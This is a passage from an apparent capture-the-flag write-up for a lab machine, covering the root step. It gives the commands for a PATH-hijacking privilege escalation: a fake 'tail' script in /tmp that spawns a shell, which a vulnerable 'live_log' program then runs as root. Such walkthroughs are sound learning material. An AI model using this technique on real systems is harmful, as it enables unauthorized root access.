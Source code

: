 Well, that explains why I had to break out of the program.

<br>

## Root

Given it doesn't specify the full path to the tail executable we can try and exploit the **PATH** variable and run our own **tail** command:

I run the following to make **/tmp** the first location in my **PATH** variable:

`export PATH=/tmp:$PATH`

I then change to the **/tmp** directory and create a file called **tail** with the following inside of it:

```
#!/bin/bash

/bin/bash
```

Change it to executable with `chmod +x tail`.

And then run change back to the **joe** home directory and run the **live_log** script again:

`./live_log`

```
barry@mustacchio:/home/joe$ ./live_log
root@mustacchio:/home/joe# whoami
root
```

And there we have it!

The **root.txt** flag is in the usual **/root** directory for the taking.

<br>
